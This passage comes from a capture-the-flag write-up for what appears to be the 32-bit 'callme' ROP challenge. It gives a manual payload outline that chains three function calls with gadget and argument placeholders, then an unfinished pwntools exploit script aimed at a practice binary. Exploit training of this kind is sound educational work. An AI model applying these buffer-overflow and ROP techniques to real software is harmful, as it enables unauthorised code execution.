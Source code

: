 So this is how we will go about it manually. ***Note ; they should be in little endian format***

 > python2 -c 'print "A" * offset + **"callmeone"** + **"gadget address"** + **"0xdeadbeef"** + **"0xcafebabe"** + **"0xd00df00d"** + **"callmetwo"** + **"gadget address"** + **"0xdeadbeef"** + **"0xcafebabe"** + **"0xd00df00d"** + **"callmethree"** + **"gadget address"** + **"0xdeadbeef"** + **"0xcafebabe"** + **"0xd00df00d"**' > payload

 Run this payload with the binary and you will get the flag and that is how its done manually.

 ### pwntools script

 ```python
 from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    # Start the exploit against the target
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './callme32'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'info'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Locate the functions/strings we need
callme_one = elf.symbols['callme_one']
callme_two = elf.symbols['callme_two']
callme_three = elf.symbols['callme_three']

# Print out the target address
info("%#x callme_one", callme_one)
info("%#x callme_two", callme_two)
info("%#x callme_three", callme_three)

# We will send a 'cyclic' pattern which overwrites the return address on the stack
payload = cyclic(100)

# PWN
io.sendlineafter('>', payload)

# Wait for the process to crash
 ```